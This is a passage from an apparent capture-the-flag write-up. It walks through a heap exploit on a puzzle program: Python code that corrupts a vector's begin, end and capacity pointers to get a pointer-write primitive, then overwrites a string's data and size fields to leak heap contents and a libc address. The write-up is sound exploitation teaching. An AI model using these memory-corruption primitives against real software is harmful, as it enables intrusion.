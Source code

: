 First, let's create some puzzles and free them again:

```python  
for i in range(10):  
   add_puzzle("tofree" + str(i), 1, b"\x01")

for _ in range(10):  
   delete_puzzle(4)  
```

We can now corrupt the pointers of the vec_puzzle vector.  
If we point the `end` vector to some place on the heap and make sure that
there is enough capacity (`cap - end >= 8`), then the next `push_back` in
`add_puzzle` will write the pointer to the newly allocated puzzle at the
location we set `end` to.  
This primitive allows us to write a pointer to an allocated `Puzzle` struct
anywhere we want on the heap.  
Let's make a function for that:

```python  
def write_puzzleptr_to(addr, base=None):  
   add_puzzle("write", 92, flat({  
       0x400: [addr, addr, addr + 8]  
   }, filler=b"\0"))  
   delete_puzzle(0)  
   if base:  
       add_puzzle("write", 92, flat({  
           0x400: [base, base + 16, base + 24]  
       }, filler=b"\0"))  
       return

   add_puzzle("write", 92, flat({  
       0x400: [orig_vec_beg, orig_vec_end, orig_vec_cap]  
   }, filler=b"\0"))  
```

We also make sure to reset the vector again after doing our corruption, so
that we don't accidently corrupt much more later in our exploits.  
Using this primitive, we can overwrite the `data` and `size` pointer of a
`title` string to leak a large portion of the heap:

```python  
string_addr = beg + 0x30  
info("string_addr %#x", string_addr)  
write_puzzleptr_to(string_addr + 4) # this will set size to the topmost 4
bytes of a puzzle address, so it will be large (but only about 16 bit, because
the topmost 2 bytes are always zero)

write_puzzleptr_to(string_addr) # here we set the data pointer to point to an
allocated puzzle  
```

When we list the puzzles the next time (using any action that requires us to
enter a puzzle id), we get a large heap dump as a title of one of the puzzles.  
We can find a libc address at some offset within this dump.
